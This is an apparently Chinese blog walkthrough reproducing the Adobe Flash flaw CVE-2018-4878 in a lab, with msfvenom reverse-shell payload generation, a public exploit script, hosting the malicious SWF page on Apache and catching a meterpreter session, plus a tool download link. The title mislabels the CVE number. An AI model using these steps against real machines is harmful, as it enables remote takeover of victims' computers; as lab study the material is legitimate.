






# [漏洞复现]CVE-2018-4887 Flash 0day - ESHLkangi - 博客园

> 原文：[`www.cnblogs.com/ESHLkangi/p/9155440.html`](https://www.cnblogs.com/ESHLkangi/p/9155440.html)

1、漏洞概述

2018 年 2 月 1 号，Adobe 官方发布安全通报（APSA18-01），声明 Adobe Flash 28.0.0.137 及其之前的版本，存在高危漏洞（CVE-2018-4878）。

攻击者通过构造特殊的 Flash 链接，当用户用浏览器/邮件/Office 访问此 Flash 链接时，会被“远程代码执行”，并且直接被 getshell。

2、实验环境

攻击机：kali 2017 + exp：cve-2018-4878.py 

攻击机 IP：192.168.190.130

靶机：Windows 7 + flash：flashplayer_activex_28.0.0.137.exe

靶机 IP：192.168.190.131

3、实验利用工具

链接: https://pan.baidu.com/s/1nnUCy8xPbcIgT24ddo6D1A 密码: e292

4、漏洞复现

将网盘中的 CVE-2018-4878-master 目录下载下来，并放入 kali linux 桌面




使用 msfvenom 生成 shell 代码

```
生成代码，其中 lhost 为 kali 的 ip 地址，lport 为自定义的端口号
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.190.130 lport=8888 -f python>shellcode.txt
```


```
查看代码
root@kali:~# cat shellcode.txt 
```



 在 CVE-2018-4878-master 目录，编辑 CVE-2018-2878.py

将上面 msfvenom 生成的代码覆盖原来的代码，如下：



 修改 CVE-2018-4878.py 下面的文件信息（后面会用到，之后保存修改退出）：


 进入 CVE-2018-4878-master 路径，用 Python 执行 CVE-2018-4878.py 代码

```
进入 CVE-2018-4878-master 路径
root@kali:~# cd 桌面/CVE-2018-4878-master
执行 CVE-2018-4878.py 代码
root@kali:~/桌面/CVE-2018-4878-master# python cve-2018-4878.py 
```


执行完后会多出两个文件

kali linux 开启 Apache2 服务，并将上面生成的 2 个文件放入/var/www/html 目录中

```
root@kali:~/桌面/CVE-2018-4878-master# service apache2 start
root@kali:~/桌面/CVE-2018-4878-master# cp index2.html /var/www/html/index2.html
root@kali:~/桌面/CVE-2018-4878-master# cp exploit.swf /var/www/html/exploit.swf
```


此时，Kali Linux 上 Web 服务启动，并且具备 index2.html 这个页面。只要靶机启用 flash 并访问了这个页面，则可以直接被控制。

kali 开启 shell 会话监听

```
启动 msf
root@kali:~# msfconsole 
使用 handler 监听模块
msf > use exploit/multi/handler
设置一个 tcp 回弹连接  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
设置 kali 渗透机的 ip 地址
msf exploit(handler) > set LHOST 192.168.190.130 设置监听端口，这个需跟上面 msfvenom 设置的端口一致
msf exploit(handler) > set LPORT 8888 开启监听，等待肉鸡上线
msf exploit(handler) > exploit 
```


 在 win 7 中安装 flash 插件，并用 IE 浏览器访问页面

将网盘中的 flash 安装包下载下来放到 Windows 7 中，并安装


 使用 Win 7 内置的 IE 8 浏览器访问页面 192.168.190.130/index2.html


在 kali linux 上获取 meterpreter shell，并进行管理


```
查看会话
msf exploit(handler) > sessions 
连接会话
msf exploit(handler) > sessions -i 2
```







 实验总结：

可以看到，最终由于 Flash 存在 CVE-2018-4878 这个高危漏洞，导致 Windows 靶机访问含 flash 的页面时，直接被 Kali Linux 控制。

真实环境下，很多黑客基于此 Flash 漏洞，结合社会工程学，例如将网页链接放置在诱导邮件中，欺骗大量用户点击，来达到最规模攻击效果。